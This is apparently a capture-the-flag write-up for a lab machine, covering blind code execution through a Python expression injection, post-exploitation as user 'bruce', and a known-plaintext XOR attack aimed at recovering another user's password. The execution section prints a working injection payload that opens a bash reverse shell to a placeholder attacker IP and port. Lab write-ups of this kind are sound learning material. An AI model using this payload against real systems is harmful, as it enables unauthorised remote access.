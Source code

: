 ### Blind Remote Code Execution  

→ Started netcat listener on attacking machine on port 1234.    
→ In the input fields for "xa" and "xb" injected the payload as:  
  ```bash
  xa = __import__('os').system("bash -c 'bash -i >& /dev/tcp/<Attacker-IP>/<Port> 0>&1'")#
  xb = 0
  ```
  - The "#" in the end will comment out rest of the part of the expression.
→ Successfully a received a reverse shell.  

### Post Exploitation
→ Gained access via reverse shell as user "bruce".  
→ Found the first flag in "/home/bruce" directory in "flag1.txt".  
→ Found a file named as "note" in the same directory  
  - note.txt
    ```bash
    Hello Bruce,

    I have encoded my password using the super secure XOR format.

    I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can     use my script located in the /opt/ directory.

    For now look at this super secure string:
    NEUEDTIeN1MRDg5K

    Gordon
    ```
→ We can deduce from this note:  
  - User "gordon" has encrypted his password using XOR encryption.  
  - The key is lengthy in nature.  
  - The encrypted password is encoded to base64 in end.  
  - "gordon" has allowed "bruce" to run the "encrypt.py" script which is evident if we run "sudo -l" as user "bruce".  
    ```bash
    bruce@ip-10-201-62-203:~$ sudo -l
    Matching Defaults entries for bruce on ip-10-201-62-203:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User bruce may run the following commands on ip-10-201-62-203:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
    ```
  - A encrypted string "NEUEDTIeN1MRDg5K" which probably is password for "gordon".  
→ Running the aforementioned script, we are prompted to enter the password and in the output we receive the encrypted password.  
  - We know the plaintext and we know the cipher text but the key is not known.

### Horizontal Privilege Escalation  
→ Upon researching for XOR encryption found an [article](https://alamot.github.io/xor_kpa/) which describes "Known-plaintext" attack.  
  - plaintext ⊕ key = encrypted_text  
  - encrypted_text ⊕ plaintext = key  
  - encrypted_text ⊕ key = plaintext  
  - If the key is smaller than the plaintext, the key is repeated. This fact makes this encryption scheme extremely weak.  
